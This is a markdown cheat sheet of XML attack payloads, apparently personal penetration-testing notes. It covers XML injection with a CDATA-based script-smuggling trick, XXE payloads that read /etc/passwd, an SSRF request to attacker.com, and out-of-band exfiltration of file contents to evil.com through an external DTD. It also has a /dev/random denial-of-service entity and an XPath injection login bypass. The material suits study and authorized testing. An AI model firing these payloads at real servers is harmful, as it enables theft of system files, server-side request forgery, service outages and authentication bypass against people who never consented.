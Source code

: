 # XXE and other XML vulnerabilities

## XML injection

* If our input is directly injected as a node inside an xml doc, we can :
  * Inject malformed string to break the parser
  * Modify information with well crafted payload
* If the xml is converted to html, `<![CDATA[]]>` might be stripped, making it possible to inject other script undetected : 

```markup
<html>
    <![CDATA[<]]>script<![CDATA[>]]>alert(‘xss’)<![CDATA[<]]>/
    script<![CDATA[>]]>
</html>

<!-- to : -->
<script>alert(‘XSS’)</script>
```

## XXE - _XML External Entities_

### Inband

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE inband [
    <!ELEMENT inband ANY>
    <!ENTITY xxe SYSTEM "/etc/passwd">
]>
<inband>&xxe;</inband>
```

### SSRF - _Server Side Request Forgery_

```markup
<?xml version="1.0"?>
<!DOCTYPE ssrf [
    <!ENTITY request SYSTEM "http://attacker.com">
]>
<ssrf>&request;</ssrf>
```

### Out-of-band

```markup
<!-- test.xml-->
<?xml version="1.0" encoding="UTF-8 ?>
<!DOCTYPE test SYSTEM "http://evil.com/external.dtd">
<test>&send;</test>

<!-- external.dtd -->
<!ENTITY % file_content SYSTEM "/etc/passwd">
<!ENTITY % wrapper "<!ENTITY send 'http://evil.com/?%file_content;'>">
%wrapper;
```

* If the content of the file would break the parser, use `<![CDATA[]]>` :

```markup
<!-- test.xml-->
<?xml version="1.0" encoding="UTF-8 ?>
<!DOCTYPE test SYSTEM "http://evil.com/external.dtd">
<test>&send;</test>

<!-- external.dtd -->
<!ENTITY % file_content SYSTEM "/etc/passwd">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % wrapper "<!ENTITY send 'http://evil.com/?%start;%file_content;%end;'>">
%wrapper;
```

### DDOS

```markup
<?xml version=”1.0” encoding=”ISO-8859-1”?>
 <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM “file:///dev/random” >
]>
<foo>&xxe;</foo>
```

### Additionnal ressources

* [acunetix.com](https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/)  
* [mohemiv.com](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)
* See also "A Billion Laugh" attack

## XPath Injection

* Same logic as SQL injection : `1‘ or ‘1’ = ‘1`

```text
# this :
string(//user[user/text()=’gandalf’ and pass/text()=’qwertasd123’]/account/text())

# to this :
string(//user[user/text()=’gandalf’ and pass/text()=’’ or ‘1’ = ‘1’]/account/text())
```

* I guess the same is possible with XQuery

## Sources

* [Owasp testing guide v4](https://owasp.org/www-project-web-security-testing-guide/assets/archive/OWASP_Testing_Guide_v4.pdf)
* PwnFunction [video](https://youtu.be/gjm6VHZa_8s)
* Misc research

